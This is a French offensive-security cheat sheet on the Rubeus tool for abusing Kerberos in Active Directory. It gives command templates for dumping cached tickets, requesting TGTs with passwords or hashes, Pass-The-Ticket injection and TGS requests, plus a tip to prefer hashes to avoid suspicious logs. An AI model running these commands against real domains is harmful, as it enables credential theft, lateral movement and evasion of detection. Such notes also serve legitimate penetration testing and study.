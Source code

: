 **Objectif :** Rubeus est un outil C# essentiel pour interagir avec [Kerberos](../../../Ressources/Windows/Kerberos.md) au sein d'un environnement Active Directory. Il permet de demander, manipuler, et abuser des tickets [Kerberos](../../../Ressources/Windows/Kerberos.md) pour diverses techniques offensives (AS-REP Roasting, Kerberoasting, Pass-The-Ticket, S4U, etc.).

**Source :** [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

---

### 🎟️ **Dump des tickets Kerberos en mémoire**

```powershell
Rubeus.exe dump
```

* **Contexte :** Permet de visualiser les tickets [Kerberos](../../../Ressources/Windows/Kerberos.md) (TGT et TGS) actuellement mis en cache dans la session utilisateur courante.
* **Usage :** Utile pour la reconnaissance (voir quels services l'utilisateur a récemment accédés) ou pour extraire des tickets en vue d'une attaque Pass-The-Ticket (PTT).
* **Astuce :** Exécuter avec des privilèges élevés peut révéler les tickets d'autres sessions utilisateurs sur la machine.

---

### 🆕 **Demander un Ticket Granting Ticket (TGT)**

```powershell
Rubeus.exe asktgt /user:<username> /password:<password> /domain:<domain.fqdn> [/outfile:<ticket.kirbi>] [/ptt]
# Alternative avec hash/clé
Rubeus.exe asktgt /user:<username> /rc4:<ntlm_hash> /domain:<domain.fqdn> [/ptt]
Rubeus.exe asktgt /user:<username> /aes256:<aes_key> /domain:<domain.fqdn> [/ptt]
```

* **Contexte :** Obtient un TGT pour un utilisateur spécifique si vous disposez de son mot de passe en clair ou de son hash/clé [Kerberos](../../../Ressources/Windows/Kerberos.md). Le TGT est la première étape de l'authentification [Kerberos](../../../Ressources/Windows/Kerberos.md), prouvant l'identité de l'utilisateur auprès du KDC (Key Distribution Center).
* **Usage :** Valider des identifiants, obtenir un TGT initial pour demander ensuite des TGS, ou pour une attaque Pass-The-Ticket.
* **Options clés :**
    * `/user`, `/password` | `/rc4` | `/aes256`, `/domain` : Identifiants nécessaires.
    * `/outfile:` : Sauvegarde le ticket obtenu dans un fichier `.kirbi`.
    * `/ptt` : Injecte directement le ticket obtenu dans la session courante (Pass-The-Ticket).

> \[!Attention]
> Utiliser un mot de passe en clair peut générer des logs suspects. Privilégiez l'utilisation de hash ou de clé si possible.

---

### 🎟️ **Demander un Ticket Granting Service (TGS)**

```powershell
Rubeus.exe asktgs /ticket:<base64_tgt> /service:<SPN1,SPN2,...> [/outfile:<ticket.kirbi>] [/ptt]
```
